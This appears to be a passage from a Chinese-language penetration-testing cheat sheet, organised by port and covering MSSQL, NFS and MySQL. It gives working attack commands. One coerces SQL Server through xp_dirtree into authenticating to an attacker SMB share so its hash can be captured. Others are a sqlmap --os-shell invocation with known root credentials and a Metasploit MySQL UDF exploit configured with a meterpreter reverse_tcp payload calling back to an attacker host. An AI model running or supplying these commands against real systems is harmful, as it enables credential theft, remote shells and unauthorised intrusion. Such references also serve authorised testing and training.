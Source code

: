 在sqlserver中或者smb中执行，让sql去请求我们创造的虚假的服务，sql服务会对我们的服务进行省份验证，可以拦截到身份验证的hash

```
EXEC MASTER.sys.xp_dirtree '\\10.10.16.8\test', 1, 1
```



## 2049端口 NFC

查看挂载

**语法格式**：showmount 参数 域名或IP地址

常用参数：

> -a显示客户端主机名和挂载目录
>
> -d 仅显示已被NFS客户端加载的目录 
>
> -v 显示版本信息
>
> -e 显示NFS服务器上所有的共享目录

```
sudo showmount -e x.x.x.x
```

### mount

进行挂载

```
sudo mount -o rw 10.10.10.10:/tmp /home/kali/mount1
```



## 3306端口 mysql

mysql连接

```
跳过ssl连接
mysql -h192.168.137.142 -P3306 -uroot -p --skip-ssl
```

知道账号密码sqlmap登录

```
sqlmap.py -d "mysql://root:root@192.168.99.100:3306/test" --os-shell
```

### msf

```
use exploit/multi/mysql/mysql_udf_payload
set RHOST 192.168.99.100
set PASSWORD root
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.99.1
exploit 

```
